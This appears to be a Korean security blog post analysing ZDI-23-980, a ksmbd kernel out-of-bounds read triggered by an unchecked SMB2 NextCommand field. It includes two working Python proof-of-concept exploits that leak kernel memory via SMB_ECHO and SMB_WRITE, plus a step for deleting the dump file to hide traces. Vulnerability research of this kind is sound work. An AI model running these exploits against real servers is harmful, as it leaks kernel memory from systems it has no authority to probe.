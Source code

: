 ```yaml
---
layout: post
title: "ksmbd - 2. ZDI-23-980"
categories:
  - Pwnable
tags:
  - pwn
  - kernel
last_modified_at: 2025-10-17
---
```


# ZDI-23-980 

이전 글에 이어서 이번엔 ZDI-23-980 내용이다. 해당 취약점은 Linux 커널의 ksmbd sub system에서 발생하는 (un)authenticated(후술하겠지만 인증 필요할 수도 있고 안 할 수도 있다) OOB read 취약점이다(network-based)

사용자는 커널 메모리에서 최대 65536바이트의 읽기를 수행할 수 있다. 해당 문제는 SSL의 Heartbleed 취약점과 유사한 buffer overead로 발생한다. 

요청 패킷에 데이터 길이 정보에 대한 검사가 없어서 그대로 처리하게 된다. 요약 하자면.. 

1. 100바이트짜리 데이터 보낼게요 
: ㅇㅇ 100바이트 읽을 준비할게요 

2. 실제로는 10바이트만 보내면 
: 서버는 100바이트 읽기로 했으니 나머지 90바이트는 memory-leak으로 읽음 

## 악용 방법 1 : SMB_WRITE 

1. dump.bin에 크기 N의 SMB_WRITE 요청
2. 실제 요청 패킷에 담긴 내용은 N보다 작도록 작성 
3. SMB_READ 요청을 보내면 dump.bin 파일이 다운됨
4. 익스 흔적을 제거하기 위해 해당 파일을 삭제

## 악용 방법 2 : SMB_ECHO 

인증은 필요없음(1번은 필요하다는 거겠지..)
대신 이 요청은 2바이트만 유출 가능하다. SMB_ECHO 보낼 때 마지막 2바이트 비워서 보내면 서버가 memory-leak으로 채운다. 

이

# the underlying issue 

smb request 패킷 헤더에 있는 smb2_hdr.NextCommand 필드에 대한 검사가 부적절하기 떄문에 해당 취약점이 발생했다. NextCommand는 현재 명령 이후에 다음 명령이 시작되는 위치(오프셋)를 나타냅니다. 

# exploit 

```python 
#!/usr/bin/env python3

from impacket import smb3
from pwn import p64, p32, p16, p8


def main():
    print("[*] connecting to SMB server...")
    conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445)

    packet = smb3.SMB3Packet()
    packet['Command'] = smb3.SMB2_ECHO
    packet["Data"] = p16(0x4)
    packet["NextCommand"] = 64+4

    print("[*] sending OOB read...")
    conn.sendSMB(packet)

    print("[*] reading response...")
    rsp = conn.recvSMB().rawData
    print(rsp)


if __name__ == "__main__":
    main()
```

간단한 SMB_ECHO 버전의 PoC이다. SMB_WRITE 버전은 해당 요청 struct를 짧게 살펴보고 이에 구조를 맞춰줘야 한다. 

```c
struct smb2_write_req {
	struct smb2_hdr hdr;
	__le16 StructureSize; /* Must be 49 */
	__le16 DataOffset; /* offset from start of SMB2 header to write data */
	__le32 Length;
	__le64 Offset;
	__u64  PersistentFileId; /* opaque endianness */
	__u64  VolatileFileId; /* opaque endianness */
	__le32 Channel; /* MBZ unless SMB3.02 or later */
	__le32 RemainingBytes;
	__le16 WriteChannelInfoOffset;
	__le16 WriteChannelInfoLength;
	__le32 Flags;
	__u8   Buffer[];
} __packed;
```

```python 
#!/usr/bin/env python3

from impacket import smb3
from pwn import p64, p32, p16, p8


def main(username: str, password: str, share: str, filename: str):
    print("[*] connecting to SMB server...")
    conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445)

    print(f"[*] logging into SMB server in (username: '{username}', password: '{password}')...")
    conn.login(user=username, password=password)

    print(f"[*] connecting to tree/share: '{share}'")
    tree_id = conn.connectTree(share)

    packet = smb3.SMB3Packet()
    packet['Command'] = smb3.SMB2_WRITE

    StructureSize = 49
    DataOffset = 64 + StructureSize  # fixed packet size excl buffer
    Length = 0x10000  # max credits: 8096, so max buffer: 8096*8 (0x10000), but max IO size: 4*1024*1024 (0x400000)

    # this is ugly but acquires a RW handle for the '{filename}' file containing the memory
    file_id = conn.create(tree_id, filename, desiredAccess=smb3.FILE_READ_DATA|smb3.FILE_SHARE_WRITE, creationDisposition=smb3.FILE_OPEN|smb3.FILE_CREATE,
                            creationOptions=smb3.FILE_NON_DIRECTORY_FILE, fileAttributes=smb3.FILE_ATTRIBUTE_NORMAL, shareMode=smb3.FILE_SHARE_READ|smb3.FILE_SHARE_WRITE)

    packet["Data"] = (p16(StructureSize) + p16(DataOffset) + p32(Length) + p64(0) + file_id[:8] + p64(0) + p32(0) + p32(0) + p16(0) + p16(0) + p32(0) + p8(0))
    packet["TreeID"] = tree_id
    packet["NextCommand"] = DataOffset+Length  # the end of the buffer is past the end of the packet

    print(f"[*] sending OOB read for 65536 bytes... (writing to file '{filename}')")
    conn.sendSMB(packet)

    print("[*] closing file descriptors...")
    conn.close(tree_id, file_id)  # close fd's bcs impacket is impacket

    print(f"[*] reading file containing kernel memory: '{filename}'")
    conn.retrieveFile(share, filename, print)  # print file (containing kmem dump)


if __name__ == "__main__":
    main("user", "pass", "files", "dump.bin")
```

위와 같이 StructureSize는 49로 설정하지만 Length의 경우 0x10000(65536바이트)로 설정하여 파일 작성을 요구한다. 